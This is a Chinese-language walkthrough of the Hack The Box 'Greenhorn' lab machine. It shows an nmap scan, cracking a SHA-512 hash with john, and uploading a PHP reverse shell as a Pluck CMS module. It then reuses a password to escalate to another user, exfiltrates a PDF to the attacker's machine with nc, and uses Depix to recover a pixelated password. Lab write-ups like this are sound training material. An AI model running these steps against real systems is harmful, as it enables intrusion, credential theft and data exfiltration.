




## Greenhorn

```
[★]$ nmap -sC -sV 10.129.231.80
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=6cc0d1efc7379768; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=HDvbM3rFQISE2X_lz2DfDldFAOE6MTc1NzU3NDUzOTMxMTIyODA1NQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Thu, 11 Sep 2025 07:08:59 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>GreenHorn</title>
```

### 打开浏览器就有域名
```
$ echo '10.129.231.80 greenhorn.htb' | sudo tee -a /etc/hosts
```

### 搜索pluck 4.7.18 exploit版本漏洞
#### Pluck CMS 4.7.18 不限制失败的登录尝试,允许攻击者执行暴力攻击
### 访问浏览器3000端口,点击Explore进入

#### 访问存储hash的路径

#### 复制hash，解hash
```
[★]$ echo "d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163" > hash.txt
[★]$ cp /usr/share/wordlists/rockyou.txt.gz .
[★]$ gunzip rockyou.txt.gz
[★]$ john --wordlist=rockyou.txt --format=Raw-SHA512 hash.txt
Created directory: /home/syareya55/.john
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA512 [SHA512 256/256 AVX2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyou1        (?)     
1g 0:00:00:00 DONE (2025-09-11 02:31) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
#### 密码为iloveyou1
### 在浏览器的80端口，点击地下的admin，输入密码登陆

#### 点击options->manage modules->Install a modules
### 反向shell
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
#### 粘贴进入，把ip改为本机IP
```
[★]$ vi php-reverse-shell.php

$ip = '10.10.14.149';  // CHANGE THIS
$port = 1234;       // CHANGE THIS

```
#### 压缩成.zip文件
```
[★]$ zip php-reverse-shell.zip  php-reverse-shell.php
  adding: php-reverse-shell.php (deflated 59%)
```
#### 开启nc监听
```
[★]$ nc -lvnp 1234
listening on [any] 1234 ...
```
#### 在options->manage modules->Install a modules上传php-reverse-shell.zip 点击updata
```
[★]$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.149] from (UNKNOWN) [10.129.231.80] 55886
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 08:03:04 up 56 min,  0 users,  load average: 0.07, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c /bin/bash
Script started, output log file is '/dev/null'.
www-data@greenhorn:/$
```
### 在反向shell里面枚举用户
```
www-data@greenhorn:/$ cat /etc/passwd  | grep /bin/bash
cat /etc/passwd  | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
git:x:114:120:Git Version Control,,,:/home/git:/bin/bash
junior:x:1000:1000::/home/junior:/bin/bash

www-data@greenhorn:/$ su junior
su junior
Password: iloveyou1

junior@greenhorn:/$ 
junior@greenhorn:~$ cat user.txt

```
### 进一步，提权root
```
junior@greenhorn:~$ ls -la
ls -la
total 76
drwxr-xr-x 3 junior junior  4096 Jun 20  2024  .
drwxr-xr-x 4 root   root    4096 Jun 20  2024  ..
lrwxrwxrwx 1 junior junior     9 Jun 11  2024  .bash_history -> /dev/null
drwx------ 2 junior junior  4096 Jun 20  2024  .cache
-rw-r----- 1 root   junior    33 Sep 11 07:08  user.txt
-rw-r----- 1 root   junior 61367 Jun 11  2024 'Using OpenVAS.pdf'
```
#### 有个root权限-rw-r----- 1 root
#### 传送'Using OpenVAS.pdf'到本地
```
[★]$ nc -lvnp 1235 > 'Using OpenVAS.pdf'
```
```
junior@greenhorn:~$ cat 'Using OpenVAS.pdf' | nc 10.10.14.149 1235
cat 'Using OpenVAS.pdf' | nc 10.10.14.149 1235
```
#### 断开nc,本地上打开pdf文件
```
[★]$ nc -lvnp 1235 > 'Using OpenVAS.pdf'
listening on [any] 1235 ...
connect to [10.10.14.149] from (UNKNOWN) [10.129.231.80] 50036
^C
[★]$ xdg-open 'Using OpenVAS.pdf'
```

### 去掉PDF文件的像素，工具Depix
https://github.com/spipm/Depixelization_poc
```
[★]$ git clone https://github.com/spipm/Depixelization_poc.git
[★]$ cd Depixelization_poc
[★]$ ls
depixlib  depix_static.py  images   README.md              tool_show_boxes.py
depix.py  docs             LICENSE  tool_gen_pixelated.py
```
#### 创建一个只包含像素化的图像文件,并排除pdf中的其余文本。
#### 但 PDF 查看器里并不是“普通图片”，所以右键没有 Save image as...
#### 将像素化pdf文件转化成图片png
```
[★]$ sudo apt install poppler-utils -y
[★]$ pdftoppm -png 'Using OpenVAS.pdf' image-1
```
#### 就会生成image-1.png,存放的路径在Depixelization_poc
```
[★]$ chmod +x depix.py
[★]$ ls images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
[★]$ python3 depix.py -p image-1.png -s ./images/searchimages/debruinseq_notepad_Windows10_closeAndSpaces.png -o output.png

[★]$ xdg-open output.png
```


